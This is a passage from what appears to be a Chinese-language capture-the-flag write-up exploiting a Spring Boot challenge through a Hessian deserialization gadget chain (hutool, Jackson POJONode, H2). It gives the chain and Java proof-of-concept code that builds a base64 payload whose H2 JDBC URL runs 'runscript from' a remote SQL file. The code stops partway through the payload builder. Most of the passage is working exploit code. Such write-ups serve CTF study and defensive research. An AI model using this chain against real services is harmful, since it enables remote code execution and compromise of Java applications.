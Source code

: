 题目在 springboot 环境下, pom.xml 文件里可以看到依赖包含 hutool, h2:

```plain
<dependency>
    <groupId>cn.hutool</groupId>
    <artifactId>hutool-all</artifactId>
    <version>5.8.16</version>
</dependency>

<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
    <version>2.2.224</version>
</dependency>
```

使用如下 hessian 反序列化链触发 H2 SQL 执行:

```plain
JSONObject.put -> AtomicReference.toString -> POJONode.toString -> Bean.getObject -> DSFactory.getDataSource -> Driver.connect
```

如下代码生成 base64 的 payload:

```plain
import cn.hutool.core.map.SafeConcurrentHashMap;
import cn.hutool.core.util.ReflectUtil;
import cn.hutool.core.util.SerializeUtil;
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import com.alibaba.com.caucho.hessian.io.Hessian2Output;
import com.aliyunctf.agent.other.Bean;
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import sun.misc.Unsafe;

import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
import java.util.Base64;
import java.util.concurrent.atomic.AtomicReference;

// JDK17 VM options:
// --add-opens java.base/java.lang=ALL-UNNAMED --add-opens java.base/java.util.concurrent.atomic=ALL-UNNAMED --add-opens java.base/java.lang.reflect=ALL-UNNAMED
public class PocAgent {

    public static void main(String[] args) throws Exception {
        gen("runscript from 'http://localhost:8000/localhost.sql'");
    }

    public static void gen(String sql) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);

        hessian2Output.writeMapBegin(JSONObject.class.getName());
        hessian2Output.writeObject("whatever");

        String url = String.format("jdbc:h2:mem:test;init=%s", sql);

        Setting setting = new Setting();
        setting.put("url", url);
        setting.put("initialSize", "1");
        setting.setCharset(null);
```